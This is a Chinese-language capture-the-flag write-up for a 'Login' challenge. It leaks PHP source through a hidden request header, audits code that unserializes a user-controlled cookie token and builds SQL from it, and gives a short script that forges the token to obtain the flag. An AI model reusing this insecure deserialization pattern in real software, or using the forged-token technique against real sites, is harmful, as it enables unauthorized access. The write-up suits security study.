

# Login
## 题目内容
加油，我看好你
## 思路
点开链接，是一个登录界面：  
  
随便试了几个账号密码，都不对，然后，查看页面源码，发现了一个注释：  
  
试试是不是用户名和密码，果然是的，登陆成功：  
  
但是没有什么有用的信息，查看网页源码，也同样没有有用的信息，用开发者工具看了下网络流量，发现会返回两个文件：  
  
且分别分析一下，会发现 member.php 的响应包里有个 show：  
  
这种东西其实不常见，因此用 burp 改一下请求包的头部，把这个 show 改为 1 试试：  
  
竟然返回了源码：  
  
整理一下，然后开始审计：  
```php
<?php
include 'common.php';
//数组拼接
$requset = array_merge($_GET, $_POST, $_SESSION, $_COOKIE);
class db{
    public $where;
    function __wakeup() {
        if(!empty($this->where)) {
            $this->select($this->where);
        }
    }

    function select($where) {
        $sql = mysql_query('select * from user where '.$where);
        return @mysql_fetch_array($sql);
    }
}
if(isset($requset['token'])) {
    //重要的一行，对token进行处理
    $login = unserialize(gzuncompress(base64_decode($requset['token'])));
    $db = new db();
    $row = $db->select('user=\''.mysql_real_escape_string($login['user']).'\'');
    //比较login中的user的值，匹配成功就打印flag
    if($login['user'] === 'ichunqiu') {
        echo $flag;
    }else if($row['pass'] !== $login['pass']){
        echo 'unserialize injection!!';
    }else{
        echo "(╯‵□′)╯︵┴─┴ ";
    }
}else{
    header('Location: index.php?error=1');
}
?>
```
构造一个数组 array("user" => "ichunqiu")，并对它进行逆处理：  
```php
<?php
$a = array("user" => "ichunqiu");
$s=base64_encode(gzcompress(serialize($a)));
echo $s;
?>
```
得到如下结果：  
  
在之前增加了 show: 1 的请求头中，加一个 Cookie，命名为 token，值为上面这行 base64 编码：  
  
发送过去，就能获得 flag 了：  
  
